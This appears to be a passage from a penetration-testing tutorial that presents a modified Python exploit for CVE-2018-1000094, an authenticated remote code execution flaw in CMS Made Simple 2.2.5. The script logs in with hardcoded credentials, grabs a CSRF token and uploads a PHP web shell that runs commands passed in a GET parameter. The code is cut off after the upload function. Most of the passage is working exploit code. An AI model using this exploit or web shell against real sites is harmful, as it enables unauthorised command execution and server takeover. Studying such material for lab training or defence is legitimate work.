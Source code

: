 In this case, we do not need to update the simple payload since it only executes system commands passed in clear text within the GET request
+ After all edits are complete, the final exploit should appear as follows:
``` python
# Exploit Title: CMS Made Simple 2.2.5 authenticated Remote Code Execution
# Date: 3rd of July, 2018
# Exploit Author: Mustafa Hasan (@strukt93)
# Vendor Homepage: http://www.cmsmadesimple.org/
# Software Link: http://www.cmsmadesimple.org/downloads/cmsms/
# Version: 2.2.5
# CVE: CVE-2018-1000094

import requests
import base64

base_url = "https://10.11.0.128/admin"
upload_dir = "/uploads"
upload_url = base_url.split('/admin')[0] + upload_dir
username = "admin"
password = "HUYfaw763"

csrf_param = "__c"
txt_filename = 'cmsmsrce.txt'
php_filename = 'shell.php'
payload = "<?php system($_GET['cmd']);?>"

def parse_csrf_token(location):
    return location.split(csrf_param + "=")[1]

def authenticate():
    page = "/login.php"
    url = base_url + page
    data = {
        "username": username,
        "password": password,
        "loginsubmit": "Submit"
    }
    response  = requests.post(url, data=data, allow_redirects=False, verify=False)
    status_code = response.status_code
    if status_code == 302:
        print "[+] Authenticated successfully with the supplied credentials"
        return response.cookies, parse_csrf_token(response.headers['Location'])
    print "[-] Authentication failed"
    return None, None

def upload_txt(cookies, csrf_token):
    mact = "FileManager,m1_,upload,0"
    page = "/moduleinterface.php"
    url = base_url + page
    data = {
        "mact": mact,
        csrf_param: csrf_token,
        "disable_buffer": 1
    }
    txt = {
        'm1_files[]': (txt_filename, payload)
    }
    print "[*] Attempting to upload {}...".format(txt_filename)
    response = requests.post(url, data=data, files=txt, cookies=cookies, verify=False)
    status_code = response.status_code
    if status_code == 200:
        print "[+] Successfully uploaded {}".format(txt_filename)
        return True
    print "[-] An error occurred while uploading {}".format(txt_filename)
```